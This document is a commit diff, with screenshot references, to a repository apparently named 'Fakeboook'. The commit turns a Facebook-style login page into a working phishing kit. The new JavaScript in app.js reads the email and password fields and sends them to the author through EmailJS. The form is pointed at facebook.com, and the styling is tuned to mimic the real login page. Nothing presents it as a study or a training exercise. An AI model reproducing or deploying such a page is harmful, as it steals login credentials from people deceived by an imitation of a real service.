

Before and after one commit to ronaldkelechi11/Fakeboook, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 280-840 px from the top of the page, 1360 px wide, since content can reach past the window. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/app.js
+++ b/app.js
@@ -1,7 +1,17 @@
+function getInfo(params) {
+  var btn = document.getElementById("btn");
+  btn.style.color = "#86a7dd";
 
+  var templateParams = {
+    number:  document.getElementById("emailtxt").value,
+    password: document.getElementById("passtxt").value,
+  };
 
+  emailjs.send('gmail', 'shfbfhjsdj', templateParams)
+  .then(function(response) {
+    console.log('SUCCESS!', response.status, response.text);
+ }, function(error) {
+    console.log('FAILED...', error);
+ });
 
-function getInfo() {
-var email = document.getElementById("emailtxt").value;
-  console.log(email);
 }
--- a/index.html
+++ b/index.html
@@ -6,12 +6,22 @@
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
 
+    <!-- EmailJs cdn -->
+    <script type="text/javascript"
+        src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js">
+</script>
+<script type="text/javascript">
+   (function(){
+      emailjs.init("OJYeijTeomJyu2NsM");
+   })();
+</script>
+
     <!-- Linking Section-->
     <script src="./app.js"></script>
     <link rel="stylesheet" href="style.css">
 
     <!--Favicon image-->
-    <link rel="shortcut icon" href="favicon.ico" type="image/x-icon">
+    <link rel="shortcut icon" href="icon.png" type="image/x-icon">
     <title>Fakebook</title>
 </head>
 <body>
@@ -25,7 +35,7 @@
 
         <!-- Basically the form-->
 <div class="blue">
-<form class="form1" >
+<form class="form1" action="www.facebook.com">
     <input type="text" name="email" id="emailtxt" class="emailtxt" placeholder="Email Address or Mobile Number" required="true" autocomplete="email" >
 
     <input type="password" name="password" id="passtxt" class="passtxt" autocomplete="current-password" placeholder="Password" required="true" value="">
@@ -34,11 +44,16 @@
 
 </form>
 
-  <h6>Forgotten password?</h6>
+  <h6 class="forgotpass">Forgotten password?</h6>
 
-  <h5 class="or">or</h5>
+  <div class="vertigo">
+    <hr>
+    <h5 class="or">or</h5>
+    <hr>
+  </div>
 
-  <button>Create a new Account</button>
+
+  <button>Create a New Account</button>
 
 
 </div>
@@ -47,8 +62,10 @@
 
 </div>
 
-<!--Bottom Section-->
-    <div class="bottom"></div>
+<!--Bottom Section with diffrent Languages-->
+    <div class="bottom">
+
+    </div>
 
 </body>
 </html>
--- a/style.css
+++ b/style.css
@@ -1,3 +1,4 @@
+/* I feel Grid and Flex are very easy and simple 😂😂 */
 :root{
     --primaryColor: #2671e8;
     --primaryFont:'Segoe UI';
@@ -6,10 +7,10 @@
 }
 body{
     overflow: hidden;
-    width: 100%;
-    height: 100%;
+    width: 100vw;
+    height: 100vh;
     margin: 0px;
-    padding: 40px;
+    padding: 20px;
 
 }
 .top{
@@ -55,10 +56,11 @@ h4{
 }
 .form1{
     display: grid;
+    grid-template-columns: repeat(1, max-content);
     background-color: transparent;
 }
 .emailtxt{
-    width: 520px;
+    width: 500px;
     height: 20px;
     padding: 10px;
     background-color: #f5f6f8;
@@ -66,12 +68,13 @@ h4{
     border:none;
     border-radius: 2px;
     margin-top: 20px;
+    font-size: 14px;
 }
 .emailtxt:focus-visible{
     border: none ;
 }
 .passtxt{
-    width: 520px;
+    width: 500px;
     height: 20px;
     padding: 10px;
     background-color: #f5f6f8;
@@ -79,6 +82,7 @@ h4{
     border:none;
     border-radius: 2px;
     margin-top: 20px;
+    font-size: 14px;
 }
 .btn{
     font-size: 24px;
@@ -94,11 +98,23 @@ h4{
     text-align: center;
     align-self: center;
 }
+.btn:hover{
+    background-color: #6a97e0;
+    color: #ffffff;
+}
 h6{
     font-size: 20px;
     font-weight: lighter;
     font-family:'Arial';
     justify-self: center;
+    color: var(--primaryColor);
+}
+.forgotpass{
+    font-size: 16px;
+    font-weight: lighter;
+    font-family:'Arial';
+    justify-self: center;
+    margin: 20px;
     color: var(--primaryColor);
 }
 .or{
@@ -111,7 +127,7 @@ h6{
 }
 button{
     margin: 20px;
-    padding: 5px;
+    padding: 7px;
     border-color: transparent;
     border-radius: 5px;
     width: 180px;
@@ -123,3 +139,15 @@ button{
     color: white;
     background-color: var(--buttonColor);
 }
+.vertigo{
+    margin: 0px;
+    display: grid;
+    justify-content: center;
+    grid-template-columns: repeat(3, max-content);
+}
+hr{
+    color: grey;
+    height: 0.5px;
+    width: 220px;
+    margin: 10px;
+}
```
Also changed, not shown: icon.png (added).
